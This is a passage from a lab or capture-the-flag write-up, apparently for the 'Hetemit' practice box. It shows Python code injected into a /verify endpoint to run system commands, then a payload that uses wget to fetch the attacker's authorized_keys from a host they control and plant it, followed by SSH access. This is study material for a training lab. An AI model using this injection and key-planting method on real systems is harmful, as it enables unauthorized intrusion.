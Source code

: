 ```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 59
Server: Werkzeug/1.0.1 Python/3.6.8
Date: Mon, 31 May 2021 18:21:30 GMT

{'uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)\n'}
```

We have used python's `os` module here. The `popen` method of `os` module can be used to run system commands on the server. In this case, we have used `id` command. We can see the output of `id` command in the response. So, we achieved **Remote Code Execution (RCE)**.


## EXPLOITATION :

I have tried to get reverse shell connection since we have command execution here. But it seems there is an outgoing traffic filtering present on the server.

We have SSH open. So we can try to inject our SSH public key and get into the box as `cmeeks`.

```
POST /verify HTTP/1.1
Host: 192.168.131.117:50000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _register_hetemit_session=gqUOmpxCTU%2BZ8b3oNACheXFmUuJX5N%2BWP%2BltT7KqntFHRcaBiHIdpYT84HCMXtBbB2tEzSBuSwDNOVOiBgKWAXrpnupVMphsBisMAEmSy6PoJJEBT481LPgBwLRcXYKMAaupFmSAqz51CeXRRO%2BbHdFp6btM4qOphJFtQeLBGysqOGoqnepboD%2FOIvmpYHQyLcugpErPetzeIf4OPasMFDgoBD8SRzh0LEm8R4kmF85f53BQqTaW%2F2ibFktj%2Fop4s2aPRDlJC2vyEH%2ByICuGv95jHPfbOVn2h3ceEuZSph3I--%2F8n08ek6wERCk2TG--iW5SiN97ItbFtShjuIHroQ%3D%3D
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 105

code={os.popen("wget http://192.168.49.131/authorized_keys -O /home/cmeeks/.ssh/authorized_keys").read()}
```

```
┌──(root💀nehal)-[~]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.131.117 - - [01/Jun/2021 05:30:10] "GET /authorized_keys HTTP/1.1" 200 -
```

We have successfully transferred our key. Now it is time to make an entry.

```
┌──(root💀nehal)-[~]
└─# ssh -i id_rsa cmeeks@192.168.131.117
Activate the web console with: systemctl enable --now cockpit.socket

[cmeeks@hetemit ~]$ id && hostname; date
uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
hetemit
Mon May 31 18:32:16 UTC 2021
[cmeeks@hetemit ~]$ 
```
